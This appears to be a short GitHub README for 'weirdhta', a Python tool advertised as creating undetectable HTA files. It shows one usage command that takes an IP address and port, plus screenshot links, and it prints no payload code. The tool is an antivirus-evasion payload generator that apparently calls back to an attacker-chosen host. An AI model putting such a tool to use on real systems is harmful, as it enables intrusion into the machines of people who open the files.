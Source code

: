 # weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 weirdhta.py 10.10.10.10 4444
```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/mb8xvCq.png)

![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)
